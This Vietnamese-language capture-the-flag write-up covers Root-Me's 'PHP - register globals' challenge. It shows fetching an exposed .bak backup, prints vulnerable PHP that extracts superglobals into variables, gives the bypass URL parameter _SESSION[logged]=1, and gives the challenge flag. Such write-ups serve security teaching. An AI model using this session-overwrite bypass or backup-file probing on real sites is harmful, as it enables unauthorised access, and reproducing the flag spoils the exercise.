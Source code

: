 # Write up challenge PHP - register globals


Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals)<br>
</br>

Truy cập challenge ta thấy hint được cho là tệp sao lưu. 

<img src="./img/01.png" height=350 alt="normal_acc_TRAbID"/> 

Tra google thì biết được các tệp sao lưu thường có đuôi là `.bak`, thử truy cập tệp sao lưu bằng đường dẫn `https://challenge01.root-me.org/web-serveur/ch17/index.php.bak`, ta thấy có 1 file sao lưu được tải về:

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<div style = "page-break-after: always;"></div>

Tiến hành xem nôi dung file:

            <?php


            function auth($password, $hidden_password){
                $res=0;
                if (isset($password) && $password!=""){
                    if ( $password == $hidden_password ){
                        $res=1;
                    }
                }
                $_SESSION["logged"]=$res;
                return $res;
            }



            function display($res){
                $aff= '
                <html>
                <head>
                </head>
                <body>
                    <h1>Authentication v 0.05</h1>
                    <form action="" method="POST">
                    Password&nbsp;<br/>
                    <input type="password" name="password" /><br/><br/>
                    <br/><br/>
                    <input type="submit" value="connect" /><br/><br/>
                    </form>
                    <h3>'.htmlentities($res).'</h3>
                </body>
                </html>';
                return $aff;
            }



            session_start();
            if ( ! isset($_SESSION["logged"]) )
                $_SESSION["logged"]=0;

            $aff="";
            include("config.inc.php");

            if (isset($_POST["password"]))
                $password = $_POST["password"];

            if (!ini_get('register_globals')) {
                $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
                if (isset($_SESSION)) {
                    array_unshift($superglobals, $_SESSION);
                }
                foreach ($superglobals as $superglobal) {
                    extract($superglobal, 0 );
                }
            }

            if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
                $aff=display("well done, you can validate with the password : $hidden_password");
            } else {
                $aff=display("try again");
            }

            echo $aff;

            ?>


Ở các dòng cuối ta thấy để in ra được chuỗi `"well done, you can validate with the password : $hidden_password"` ta cần thỏa mãn điều kiện if đúng. Để ý thấy điều kiện if là hoặc và vế sau có vẻ đơn giản hơn ta tiến hành tập trung vào nó:
        (is_array($_SESSION) && $_SESSION["logged"]==1 )

Như đã thấy việc cần làm hiện tại là phải set được `$_SESSION["logged"]==1`. 

<br> Để ý và tìm hiểu về tên challenge thì ta biết được register_globals là một tính năng của PHP được kích hoạt theo mặc định trước phiên bản 4.2.0. Khi register_globals được On, PHP sẽ cho phép các biến được sử dụng khi chưa được khởi tạo, tự động tạo biến và đặt giá trị mà không cần code, cũng có thể dùng để ghi đè biến toàn cục và có thể truyền trực tiếp các tham số trong URL để buộc khởi tạo biến.

<img src="./img/1.png" alt="normal_acc_TRAbID"/>

Đã hiểu được vấn đề, bây giờ cần tiến hành set `$_SESSION["logged"]==1` thông qua register_globals.
Truy cập url `http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1` và ta có được flag:

<img src="./img/3.png" alt="normal_acc_TRAbID"/>


Submit thành công 

<img src="./img/4.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** NoTQYipcRKkgrqG

